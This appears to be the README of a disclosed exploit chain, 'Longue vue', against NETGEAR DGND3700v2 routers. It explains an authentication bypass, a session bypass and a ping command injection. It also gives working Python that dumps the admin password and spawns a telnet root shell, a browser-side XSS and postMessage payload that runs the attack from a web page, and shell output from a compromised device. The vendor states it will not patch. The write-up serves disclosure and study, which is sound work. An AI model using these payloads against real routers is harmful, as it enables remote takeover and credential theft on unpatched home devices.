


# Longue vue 🔭: Exploit chain that compromises NETGEAR DGND3700v2 devices over the Internet

«Longue vue» is an exploit chain that compromises remotely [NETGEAR DGND3700v2](https://www.netgear.com/support/product/DGND3700v2) devices. It has been tested on real hardware with the latest available firmware image *V1.1.00.26_1.00.26NA* available on NETGEAR's website: [DGND3700v2-V1.1.00.26_1.00.26NA.zip](http://www.downloads.netgear.com/files/GDC/DGND3700V2/DGND3700v2-V1.1.00.26_1.00.26NA.zip).

Its particularity is that it is able to compromise the router over the web like with a browser exploit: a user visiting a website is enough for an attacker to execute arbitrary root commands on their router 🔥

<p align='center'>

</p>

I worked with [SSD Disclosure](https://ssd-disclosure.com/) to address those issues and here is the advisory: [SSD Advisory – NETGEAR DGND3700v2 PreAuth Root Access](https://ssd-disclosure.com/ssd-advisory-netgear-dgnd3700v2-preauth-root-access/).

Unfortunately for users, it seems that NETGEAR has refused to address the vulnerabilities; here is the vendor statement:

> NETGEAR will not release a fix for this vulnerability on the affected product as the product is outside of the security support period. Current in-support models are not affected by this vulnerability.

On top of the vulnerabilities exploited and the lack of security support from NETGEAR, the overall security of this device is probably the worst I've seen in a very long time - I would highly recommend moving off this device and getting another one (that's what I personally did).

## Running the exploit

There are two ways to run the exploit:
- a LAN version that also works against devices that have turned on remote management,
- directly from the Internet (like in a browser exploit). You can check if your router is affected by visiting [0vercl0k.github.io/longue-vue](https://0vercl0k.github.io/longue-vue).

### LAN / remote management turned on

[longue-vue.py](src/longue-vue.py) is the exploit code for LAN side / when remote management is enabled:

```
>python longue-vue.py

           .    '                   .  "   '
                  .  .  .                 '      '
          "`       .   .
                                           '     '
        .    '      _______________
                ==c(___(o(______(_()
                        \=\
                         )=\
                        //|\\
                       //|| \\
                      // ||  \\
                     //  ||   \\
                    //         \\
    «Longue vue» LAN exploit targeting NETGEAR DGND3700v2
              by Axel '0vercl0k' Souchet

usage: Longue vue [-h] [--dump-pwd] [--shell] [--cmd CMD] [--target TARGET]

optional arguments:
  -h, --help       show this help message and exit
  --dump-pwd
  --shell
  --cmd CMD
  --target TARGET
```

Below is an example of where I get a remote shell on the device (`routerlogin.com` resolves to the device IP):

```
>python longue-vue.py --target routerlogin.com --shell
[...]
Getting a shell against routerlogin.com..
Waiting a few seconds before connecting..
Dropping in the shell, exit with ctrl+c
# /bin/ps
/bin/ps
  PID USER       VSZ STAT COMMAND
    1 root      1100 S    init
    2 root         0 SW<  [kthreadd]
    3 root         0 SW<  [migration/0]
    4 root         0 SW   [sirq-high/0]
    5 root         0 SW   [sirq-timer/0]
    6 root         0 SW   [sirq-net-tx/0]
    7 root         0 SW   [sirq-net-rx/0]
    8 root         0 SW   [sirq-block/0]
    9 root         0 SW   [sirq-tasklet/0]
   10 root         0 SW   [sirq-sched/0]
   11 root         0 SW   [sirq-hrtimer/0]
   12 root         0 SW   [sirq-rcu/0]
   13 root         0 SW<  [migration/1]
   14 root         0 SW   [sirq-high/1]
   15 root         0 SW   [sirq-timer/1]
   16 root         0 SW   [sirq-net-tx/1]
   17 root         0 SW   [sirq-net-rx/1]
   18 root         0 SW   [sirq-block/1]
   19 root         0 SW   [sirq-tasklet/1]
   20 root         0 SW   [sirq-sched/1]
   21 root         0 SW   [sirq-hrtimer/1]
   22 root         0 SW   [sirq-rcu/1]
   23 root         0 SW<  [events/0]
   24 root         0 SW<  [events/1]
   25 root         0 SW<  [khelper]
   28 root         0 SW<  [async/mgr]
   92 root         0 SW<  [kblockd/0]
   93 root         0 SW<  [kblockd/1]
  102 root         0 SW<  [khubd]
  120 root         0 SW<  [bpm]
  136 root         0 SW   [pdflush]
  137 root         0 SW   [pdflush]
  138 root         0 SWN  [kswapd0]
  140 root         0 SW<  [crypto/0]
  141 root         0 SW<  [crypto/1]
  198 root         0 SW<  [mtdblockd]
  246 root         0 SW   [board-timer]
  250 root         0 SW<  [linkwatch]
  306 root         0 SW   [kpAliveWatchdog]
  312 root         0 SW   [dsl0]
  321 root         0 SW   [bcmsw]
  322 root         0 SW   [bcmsw_timer]
  409 root      1500 S    /usr/sbin/swmdk
  411 root      1500 S    /usr/sbin/swmdk
  412 root      1500 S    /usr/sbin/swmdk
  417 root      1272 S    /sbin/klogd
  419 root       808 S    /usr/sbin/cmd_agent_ap
  421 root         0 SWN  [jffs2_gcd_mtd4]
  422 root         0 SWN  [jffs2_gcd_mtd3]
  423 root         0 SWN  [jffs2_gcd_mtd12]
  424 root         0 SWN  [jffs2_gcd_mtd11]
  425 root         0 SWN  [jffs2_gcd_mtd10]
  426 root         0 SWN  [jffs2_gcd_mtd9]
  427 root         0 SWN  [jffs2_gcd_mtd2]
  428 root         0 SWN  [jffs2_gcd_mtd8]
[...]
# *** Connection closed by remote host ***
Cleaning up..
Joining..
----------------------------Done----------------------------
```

And here is another example to dump the login credentials:

```
>python longue-vue.py --dump-pwd

           .    '                   .  "   '
                  .  .  .                 '      '
          "`       .   .
                                           '     '
        .    '      _______________
                ==c(___(o(______(_()
                        \=\
                         )=\
                        //|\\
                       //|| \\
                      // ||  \\
                     //  ||   \\
                    //         \\
    «Longue vue» LAN exploit targeting NETGEAR DGND3700v2
              by Axel '0vercl0k' Souchet

Dumping administration password...
Login: 'admin', Password: "TK'm$30ImYDh)Q.e}nZf"
----------------------------Done----------------------------
```

### From the internet

You can check if your router is affected by visiting [0vercl0k.github.io/longue-vue](https://0vercl0k.github.io/longue-vue).

The easiest way to set up the attack in a lab is to start `python -m http.server` from the `web/` directory. Then, edit the `hosts` file of your OS (`C:\Windows\System32\drivers\etc\hosts` on Windows, `/etc/hosts` on Linux) and add an entry that resolves to the IP of the listenning Python HTTP server:

```
[...]
<your local ip> longue-vue.net
```

In my case, I ran `python -m http.server` from my personal machine which has the following IP: 192.168.0.2

```
[...]
192.168.0.2 longue-vue.net
```

Once this is done, you can open a browser (I've only tested this on Microsoft Edge chromium) and navigate to `longue-vue.net` and press the button. This is what you should see:



## Vulnerabilities

Two vulnerabilities are used; an authentication bypass (as well as a session bypass) and a command injection.

Most of the web functionality is implemented in a CGI ELF written in C. The HTTP server is based off [mini_httpd](https://github.com/peter-leonov/mini_httpd/blob/master/mini_httpd.c) with some modifications / customizations. It is the process that sets up the environment variables that the CGI executable (`setup.cgi`) uses to understand how to serve the request.

### Bypassing authentication / session

The way web authentication is "working" on this device is extremely fragile. The web server sets an environment variable called `NEED_AUTH` to `'0'` or `'1'` before invoking `setup.cgi`. The CGI executable then uses it to know if it needs to authenticate the user or not.

Because some resources (images, pages, etc.) need to be available without authentication (like the page returned when using wrong credentials), it keeps a static array of page names that are deemed "special":

```text
.data:0041EB20 SpecialNonAuthPages:.word aCurrentsetting
.data:0041EB20                           # "currentsetting.htm"
.data:0041EB24  .word aUpdateSettingH    # "update_setting.htm"
.data:0041EB28  .word aDebuginfoHtm      # "debuginfo.htm"
.data:0041EB2C  .word aImportantUpdat    # "important_update.htm"
.data:0041EB30  .word aMNUtopHtm         # "MNU_top.htm"
.data:0041EB34  .word aWarningPgHtm      # "warning_pg.htm"
.data:0041EB38  .word aMultiLoginHtml    # "multi_login.html"
.data:0041EB3C  .word aHtpwdRecoveryC    # "htpwd_recovery.cgi"
.data:0041EB40  .word a401RecoveryHtm    # "401_recovery.htm"
.data:0041EB44  .word a401AccessDenie    # "401_access_denied.htm"
```

When handling a request it loops over this array and tries to find the substring in the request specified by the user:

```C
char *handle_request()
{
  //...
  CurrSpecialPagePtr = (const char **)SpecialNonAuthPages;
  while ( 1 )
  {
    CurrSpecialPage = *CurrSpecialPagePtr;
    if ( !*CurrSpecialPagePtr )
      break;
    ++CurrSpecialPagePtr;
    // If we find a hit, we special case the request
    if ( strstr(v60, CurrSpecialPage) )
      goto LABEL_171;
  }
  if ( !strstr(v60, ".gif")
    && !strstr(v60, ".css")
    && !strstr(v60, ".js")
    && !strstr(v60, ".xml")
    && !strstr(v60, ".jpg") )
  {
    goto LABEL_173;
  }
LABEL_171:
  NeedAuth = 0;
```

Obviously an attacker can abuse this very easily by just appending `foo=currentsetting.htm` in every authenticated URL the attacker wants to access (without authentication). This means the HTTP server will set the `NEED_AUTH` to `'0'`.

```python
def dump_http_pwd(target):
    '''Bypass authentication and retrieve credentials needed to access
    the administration panel.'''
    r = requests.get(f'http://{target}/setup.cgi?next_file=passwordrecovered.htm&foo=currentsetting.htm')
    content = r.content.decode()
    login, pwd = re.findall(r'Router Admin (?:Username|Password)</span>:&nbsp;(.+)</td>', content)
    return login, pwd
```

Once the request is allowed to go through, `setup.cgi` gets spawned via `execve`:

```
.text:00405BAC   move    $a1, $zero       # handler
.text:00405BB0   lw      $gp, 0x2B38+var_2B10($sp)
.text:00405BB4   move    $a0, $s1         # path
.text:00405BB8   la      $t9, execve
.text:00405BBC   move    $a1, $s0         # argv
.text:00405BC0   jalr    $t9 ; execve
.text:00405BC4   move    $a2, $s2         # envp
```

Below is a stripped version of `setup.cgi`'s main:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  // ...
  strcpy(SessionFilepath, "/tmp/SessionFile");
  memset(&SessionFilepath[17], 0, 0x6Fu);
  // ...
  QueryStringIdPtr = strstr(QueryString, "id=");
  if ( !QueryStringIdPtr )
  {
      // ...
  }
  QueryStringId = strtol(QueryStringIdPtr + 3, &QueryStringAfterIdPtr, 16);
  if ( QueryStringAfterIdPtr )
  {
    QueryStringSpPtr = strstr(QueryStringAfterIdPtr, "sp=");
    if ( QueryStringSpPtr )
      strcat(SessionFilepath, QueryStringSpPtr + 3);
  }
  SessionId = ReadSessionId(SessionFilepath);
  ConFd__ = fopen("/dev/console", "w");
  if ( ConFd__ )
  {
    fprintf(ConFd__, "[ %s - %d ] : ", "sid_verify", 201);
    fprintf(ConFd__, "<%s> your_sid = <%08x>, my_sid = <%08x> \n", SessionFilepath, QueryStringId, SessionId);
    fflush(ConFd__);
    fclose(ConFd__);
  }
  if ( QueryStringId != SessionId )
    goto SendForbidden;
  // ...
}
```

The functionalities implemented in `setup.cgi` are gated behind those checks (even before authentication). This is what I called the 'session bypass' 🤷🏽‍♂️.

The code creates a file called `/tmp/SessionFileXXX` where `XXX` is the value of the `sp` GET variable parameter. On successful authentication, this file is opened and a secret integer is generated and written into it. The attentive reader will also notice that the concatenation of `XXX` to `/tmpSessionFile` is also a pre-auth remote stack overflow... 🤦🏽‍♂️

The code tries to implement a session by asking the user to provide the secret integer via the `id` GET parameter. This is what `ReadSessionId` looks like:

```C
int __fastcall ReadSessionId(const char *Filename)
{
  FILE *Fd;
  int SessionId;

  SessionId = 0;
  Fd = fopen(Filename, "r");
  if ( !Fd )
    return SessionId;
  fscanf(Fd, "%x", &SessionId);
  fclose(Fd);
  return SessionId;
}
```

The logic is really simple: it opens the file path passed, reads an hexadecimal string into an integer which is called `SessionId` and returns it. The caller simply compares the value passed in `id=` to the value stored in the file. If the secret matches, then the code keeps going otherwise it sends a *forbidden* answer to the user.

Again, trivial to bypass: we can simply pass `sp=1337` which means that `ReadSessionId` will open `/tmp/SessionId1337` which won't exist on the device. This means that `fopen` will fail and return `SessionId` which has been initialized to zero. This is a known value and as a result we can simply pass `id=0` to have the two secrets match 🤦🏽‍♂️.

```python
def cmd_exec(target, cmd, silent = False):
    r = requests.post(
        f'http://{target}/setup.cgi?id=0&sp=1337foo=currentsetting.htm',
```

After bypassing the session checks, this is what the authentication check look like further down:

```C
int HandleSetupCgi()
{
  int List;
  const char *NextFile;
  const char *ActionName;

  List = cgi_input_parse();
  fflush(stdout);
  if ( check_need_logout(List) )
    return handle_logout(List);
```

`cgi_input_parse` basically parses the query string and creates a list of key / value items that is passed to various functions.

In `check_need_logout` we can see the `NEED_AUTH` variable mentioned earlier:

```C
bool __fastcall check_need_logout(int List)
{
  // ...
  LoginIp = getenv("LOGIN_IP");
  NeedAuth = getenv("NEED_AUTH");
  // ...
  if ( NeedAuth )
  {
    Return = 0;
    if ( *NeedAuth == '0' )
      return Return;
  }
 //...
}
```

The function needs to return zero for the caller to continue; otherwise it sends a *Forbidden* page. If the variable `NEED_AUTH` is present in the environment, the code checks if it is `'0'` and if so it returns `0` which means that no authentication is needed.

Because of the issue that we exploited in the HTTP server, `NEED_AUTH` will be set to `'0'` and this is how we bypass authentication.

At this point, we can access any feature exposed by the web UI: we can leak the HTTP credentials, etc.

### Executing arbitrary commands

Naturally, `setup.cgi` implements a feature that allows you to ping an arbitrary IP (in *Advanced > Administration > Diagnostics)*. The code for that is defined as below:

```C
// .text:00407948 handler_ping_test
int __fastcall handler_ping_test(int a1)
{
  const char *v2;
  const char *v3;
  char v5[128];

  v2 = (const char *)find_val(a1, (int)"c4_IPAddr");
  if ( !v2 )
    v2 = &nptr;
  if ( !strchr(v2, '-') && !strchr(v2, ';') )
  {
    sprintf(v5, "/bin/ping -c 4 %s", v2);
    myPipe(v5, &ping_output);
  }
  v3 = (const char *)find_val(a1, (int)"next_file");
  html_parser(v3, a1, &key_fun_tab);
  return 0;
}
```

You can inject a  command via the `c4_IPAddr` POST parameter. The `'-'`, `';'` characters can't be used but it is enough to run a telnet server that is available from the LAN side; this is what `longue-vue.py` does for dropping a shell:

```python
def cmd_exec(target, cmd, silent = False):
    '''Bypass authentication and command inject `cmd`.'''
    r = requests.post(
        f'http://{target}/setup.cgi?id=0&sp=1337foo=currentsetting.htm', {
        'todo' : 'ping_test',
        'c4_IPAddr' : f'127.0.0.1 && echo SNIPME && {cmd}',
        'next_file' : 'diagping.htm'
    })

    content = r.content.decode()
    ping_log = re.findall(
        r'<textarea name="ping_result" .+ readonly >(.+)</textarea>',
        content,
        re.DOTALL
    )
    _, cmd_content = ping_log[0].split('SNIPME', 1)
    if not silent:
        print(cmd_content.strip())

def spawn_telnetd(target):
    '''Spawn the telnet server.'''
    cmd_exec(target, '/bin/utelnetd', silent = True)
```

### Bypassing CORS in the remote from the Internet scenario

When running the exploit via the browser, one issue that arises is that the origin `longue-vue.net` is not allowed to read cross origin data (the router's web pages). Even though it can POST / GET and trigger the issues discussed above (because of lack of CSRF tokens) it cannot read the result.

The trick that I used to bypass this is to create an XSS with the command execution vulnerability: `/bin/echo XSSPAYLOAD`. The XSS payload runs in the context of the router website's origin and as a result can leak the data back to the attacker server (using `postMessage`). Below is the code that leaks the HTTP credentials over the web:

```js
//
// Dump the passwords of the administrator.
//

function dumpPasswords() {
  const payload = `fetch('/setup.cgi?next_file=passwordrecovered.htm&foo=currentsetting.htm').then(r=>r.text()).then(r=>parent.postMessage(r, '*')).catch(r=>parent.postMessage('failed','*'))`;
  return execute(payload).then(R => {
    const [loginMatch, pwdMatch] = R.matchAll(/Router Admin (?:Username|Password)<\/span>:&nbsp;(.+)<\/td>/g);
    return {'login':loginMatch[1], 'pwd':pwdMatch[1]};
  });
}
```

This is how I read the output of an arbitrary command executed on the target:

```js
//
// Execute a shell command on the router.
//

function executeCommand(command) {
  if (command.includes(';') || command.includes('-')) {
    throw 'cannot inject ";" or "-"';
  }

  const payload = "parent.postMessage(document.body.outerHTML,'*')";
  const commands = ['/bin/echo BEGIN', command, '/bin/echo END'];
  return execute(payload, commands).then(r => {
    const [_, result] = r.match(/BEGIN\n(.+)\nEND/s);
    return result;
  });
}
```

## Authors
* Axel '[0vercl0k](https://twitter.com/0vercl0k)' Souchet
